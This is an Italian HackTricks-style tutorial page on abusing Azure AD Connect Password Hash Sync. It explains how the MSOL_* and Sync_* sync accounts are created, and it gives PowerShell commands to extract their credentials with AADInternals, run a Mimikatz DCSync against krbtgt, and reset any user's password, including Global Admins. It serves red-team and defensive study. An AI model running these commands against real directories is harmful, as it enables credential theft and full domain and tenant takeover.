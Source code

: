 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Informazioni di base

[Dai documenti:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** è uno dei metodi di accesso utilizzati per realizzare l'identità ibrida. **Azure AD Connect** sincronizza un hash, dell'hash, della password di un utente da un'istanza di Active Directory on-premises a un'istanza di Azure AD basata su cloud.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

È il **metodo più comune** utilizzato dalle aziende per sincronizzare un AD on-prem con Azure AD.

Tutti gli **utenti** e un **hash degli hash delle password** sono sincronizzati dall'on-prem ad Azure AD. Tuttavia, le **password in chiaro** o gli **hash originali** non vengono inviati ad Azure AD.\
Inoltre, i **gruppi di sicurezza integrati** (come gli amministratori di dominio...) **non sono sincronizzati** con Azure AD.

La **sincronizzazione degli hash** avviene ogni **2 minuti**. Tuttavia, per impostazione predefinita, la **scadenza della password** e la **scadenza dell'account** **non sono sincronizzate** in Azure AD. Quindi, un utente la cui **password on-prem è scaduta** (non cambiata) può continuare ad **accedere alle risorse di Azure** utilizzando la vecchia password.

Quando un utente on-prem vuole accedere a una risorsa di Azure, l'**autenticazione avviene su Azure AD**.

**PHS** è necessario per funzionalità come **Identity Protection** e AAD Domain Services.

## Pivoting

Quando PHS è configurato, alcuni **account privilegiati** vengono automaticamente **creati**:

* L'account **`MSOL_<installationID>`** viene creato automaticamente in AD on-prem. Questo account riceve un ruolo di **Directory Synchronization Accounts** (vedi [documentazione](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) il che significa che ha **permessi di replica (DCSync) nell'AD on-prem**.
* Un account **`Sync_<name of on-prem ADConnect Server>_installationID`** viene creato in Azure AD. Questo account può **reimpostare la password di QUALSIASI utente** (sincronizzato o solo cloud) in Azure AD.

Le password dei due precedenti account privilegiati sono **memorizzate in un server SQL** sul server dove è installato **Azure AD Connect.** Gli amministratori possono estrarre le password di quegli utenti privilegiati in chiaro.\
Il database si trova in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

È possibile estrarre la configurazione da una delle tabelle, una delle quali è criptata:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

La **configurazione criptata** è criptata con **DPAPI** e contiene le **password degli utenti `MSOL_*`** in AD on-prem e la password di **Sync\_\*** in AzureAD. Pertanto, compromettendo questi è possibile ottenere privilegi nell'AD e in AzureAD.

Puoi trovare una [panoramica completa di come queste credenziali sono memorizzate e decriptate in questo talk](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trovare il **server Azure AD connect**

Se il **server dove è installato Azure AD connect** è unito al dominio (raccomandato nei documenti), è possibile trovarlo con:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abuso di MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Puoi anche usare [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) per ottenere queste credenziali.
{% endhint %}

### Abuso di Sync\_\*

Compromettendo l'account **`Sync_*`** è possibile **reimpostare la password** di qualsiasi utente (inclusi gli Amministratori Globali)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
È anche possibile **modificare le password solo degli utenti cloud** (anche se è inaspettato)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
È anche possibile dumpare la password di questo utente.

{% hint style="danger" %}
Un'altra opzione sarebbe **assegnare permessi privilegiati a un service principal**, che l'utente **Sync** ha **permessi** di fare, e poi **accedere a quel service principal** come un modo di privesc.
{% endhint %}

### Seamless SSO

È possibile utilizzare Seamless SSO con PHS, che è vulnerabile ad altri abusi. Controllalo in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repo di github.

</details>
{% endhint %}
